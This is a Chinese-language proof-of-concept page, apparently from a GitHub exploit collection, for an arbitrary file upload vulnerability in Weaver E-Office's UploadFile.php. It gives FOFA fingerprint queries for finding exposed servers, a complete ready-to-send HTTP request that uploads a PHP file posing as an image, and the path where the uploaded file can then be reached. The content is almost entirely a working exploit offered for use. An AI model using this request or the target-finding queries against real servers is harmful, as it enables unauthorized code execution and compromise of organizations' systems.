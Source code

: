 ## 泛微E-Office-uploadfile.php任意文件上传漏洞

## fofa
```
(body="login.php"&&body="eoffice")||body="/general/login/index.php"
icon_hash="1578525679"
```


## poc
```
POST /general/index/UploadFile.php?m=uploadPicture&uploadType=eoffice_logo&userId= HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close
Accept-Language: zh-CN,zh-TW;q=0.9,zh;q=0.8,en-US;q=0.7,en;q=0.6
Cookie: LOGIN_LANG=cn; PHPSESSID=0acfd0a2a7858aa1b4110eca1404d348
Content-Length: 193
Content-Type: multipart/form-data; boundary=e64bdf16c554bbc109cecef6451c26a4

--e64bdf16c554bbc109cecef6451c26a4
Content-Disposition: form-data; name="Filedata"; filename="test.php"
Content-Type: image/jpeg

<?php phpinfo();?>
--e64bdf16c554bbc109cecef6451c26a4--
```

![64b885a2ae7aa10cf5b5773c0495b7b3](../../images/e67a6a19-1034-430b-8f13-995aaf7c6e0f.png)

文件上传路径

`/images/logo/logo-eoffice.php`

![7955aa06c40c915e09ea9609e52cba8f](../../images/ad038d5e-0d77-4ae2-b1cf-f41988bde59a.png)
